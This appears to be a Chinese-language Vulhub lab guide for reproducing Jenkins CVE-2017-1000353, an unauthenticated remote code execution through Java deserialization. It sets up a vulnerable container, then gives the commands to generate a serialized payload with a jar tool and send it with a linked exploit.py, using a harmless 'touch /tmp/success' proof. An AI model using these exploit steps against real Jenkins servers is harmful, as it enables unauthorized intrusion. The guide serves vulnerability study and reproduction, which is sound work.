 # Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）

Jenkins 是一个广泛使用的开源自动化服务器。

Jenkins 2.56 及更早版本以及 2.46.1 LTS 及更早版本存在未授权的远程代码执行漏洞。这个未经身份验证的远程代码执行漏洞允许攻击者向 Jenkins CLI 传输序列化的 Java `SignedObject` 对象，该对象会使用新的 `ObjectInputStream` 进行反序列化，从而绕过现有的基于黑名单的保护机制。

参考链接：

- <https://www.jenkins.io/security/advisory/2017-04-26/>
- <https://www.exploit-db.com/exploits/41965>

## 环境搭建

执行如下命令启动 Jenkins 2.46.1：

```
docker compose up -d
```

等待服务器完全启动后，访问 `http://your-ip:8080` 即可看到 Jenkins 已成功运行，无需手动安装。

## 漏洞复现

漏洞利用过程分为两个步骤：生成恶意序列化载荷，并将其发送至目标 Jenkins 服务器。

首先，下载 [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar) 工具来生成 payload。这个工具将创建一个包含我们命令的序列化对象：

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser 是生成的输出文件名
# "touch ..." 是要执行的命令
```

执行上述命令后，将生成一个名为 `jenkins_poc.ser` 的文件，其中包含序列化后的 payload。

接下来，下载 [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) 脚本，并使用 Python 3 执行以发送 payload：

```bash
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

![发送漏洞利用载荷](1.png)

要验证漏洞利用是否成功，请检查容器内是否创建了指定文件：

![命令执行验证](2.png)

`/tmp/success` 文件的存在证实了远程代码执行成功。
